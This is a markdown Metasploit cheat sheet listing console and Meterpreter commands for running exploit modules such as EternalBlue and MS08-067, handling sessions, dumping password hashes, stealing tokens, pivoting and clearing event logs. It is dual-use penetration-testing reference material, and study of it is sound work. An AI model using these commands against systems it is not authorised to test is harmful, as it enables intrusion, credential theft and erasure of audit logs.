 ### Metasploit Cheat Sheet

---

![Metasploit Framework Logo](/images/cheatsheet/offensive_security/msflogo.png)

We've a cheat sheet about [msfvenom](/cheatsheet/offensive_security/msfvenom/msfvenom_cheat_sheet.md) without any explaination about metasploit framework. So, here is metasploit framework.

Metasploit is a free tool that has built-in exploits which aids in gaining remote access to a system by exploiting a vulnerability in that server.

### General Information:

| Command | Description |
| --- | --- |
| msfconsole | Launch program |
| version | Display Current Version |
| msfupdate | Pull the weekly Update |
| makerc `<FILE.rc>` | Saves Recent Command to a File |
| msfconsole -r `<FILE.rc>` | Loads a resource file |

### Executing an Exploit / Scanner / Module

| Command | Description |
| --- | --- |
| use `<MODULE>` | Set the exploit to use |
| set payload `<PAYLOAD>` | Set the payload |
| show options | Show all options |
| set `<OPTION> <SETTING>` | Set a setting |
| exploit or run | Execute the exploit |

### Session Handling

| Command | Description |
| --- | --- |
| sessions -l | List all sessions |
| sessions -i `<ID>` | Interact/attach to session |
| background or ^Z | Detach from Session |

### Using the Database

The DB saves data found during exploitation. Auxiliary scan results, hashdumps, and credentials show up in the DB.

> First Time Setup (Run from linux command line.)

| Command | Description |
| --- | --- |
| service postgresql Start | Start DB |
| msfdb Init | 	Init the DB |

> Inside msfconsole

| Command | Description |
| --- | --- |
| db_status | Should say connected |
| hosts | Show hosts in DB |
| services | Show ports in DB |
| vulns | Show all vulns found |


### Meterpreter Session Commands

The Meterpreter is a payload within the Metasploit Framework that provides control over an exploited target system, running as a DLL loaded inside of any process on a target machine.

| Command | Description |
| --- | --- |
| sysinfo | Show system info |
| ps | Show running processes |
| kill `<PID>` | Terminate a process |
| getuid | Show your user ID |
| upload / download | Upload / download a file |
| pwd / lpwd | Print working directory (local / remote) |
| cd / lcd | Change directory (local / remote) |
| cat | Show contents of a file |
| edit `<FILE>` | Edit a file (vim) |
| shell | Drop into a shell on the target machine |
| migrate `<PID>` | Switch to another process |
| hashdump | Show all pw hashes (Windows only) |
| idletime | Display idle time of user |
| screenshot | Take a screenshot |
| clearev | Clear the logs |

> Escalate Privileges:

| Command | Description |
| --- | --- |
| use priv | Load the script |
| getsystem | Elevate your privs |
| getprivs | Elevates your privs |

> Token Stealing (Windows only)

| Command | Description |
| --- | --- |
| use incognito | Load the Script |
| list_tokens -u | Show all tokens |
| impersonate_token | DOMAIN/USER Use Token |
| drop_token | Stop using token |

> Network Pivoting

| Command | Description |
| --- | --- |
| portfwd [ADD/DELETE] -L `<LHOST>` -l 3388 -r `<RHOST>` -p 3389 | Enable port forwarding |
| route add `<SUBNET> <MASK>` | Pivot through a session by adding a route within msf |
| route add `192.168.0.0/24` | Pivot through a session by adding a route within msf |
| route add `192.168.0.0/24` -d | Deleting a route within msf |

### Finding an Exploit/Payload to USE

| Command | Description |
| --- | --- |
| search <TERM> | Searches all exploits, payloads, and auxiliary modules |
| show exploits | Show all exploits |
| show payloads | Show all payloads |
| show auxiliary | Show all auxiliary modules (like scannners) |
| show all | * |

> My Favorite

| Command | Description |
| --- | --- |
| use auxiliary/scanner/smb/smb_enumshares | SMB Share Enumeration |
| use auxiliary/scanner/smb/smb_ms17_010 | MS17-010 SMB RCE Detection |
| use exploit/windows/smb/ms17_010_eternalblue | MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption |
| use exploit/windows/smb/ms17_010_psexec | MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution |
| use exploit/windows/smb/ms08_067_netapi | MS08-067 Microsoft Server Service Relative Path Stack Corruption |
| use exploit/windows/smb/psexec | Microsoft Windows Authenticated User Code Execution |
| use exploit/multi/ssh/sshexec | SSH User Code Execution (good for using meterpreter) |
| use post/windows/gather/arp_scanner | Windows Gather ARP Scanner |
| use post/windows/gather/enum_applications | Windows Gather Installed Application Enumeration |
| run getgui -e | Enables RDP for Windows in meterpreter session |

### External Sources:

[CoreBit Metasploit CheatSheet: Github](https://github.com/coreb1t/awesome-pentest-cheat-sheets/blob/master/docs/Metasploit-CheatSheet.pdf)
[Sans: Sec560 - Misc tools sheet](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)
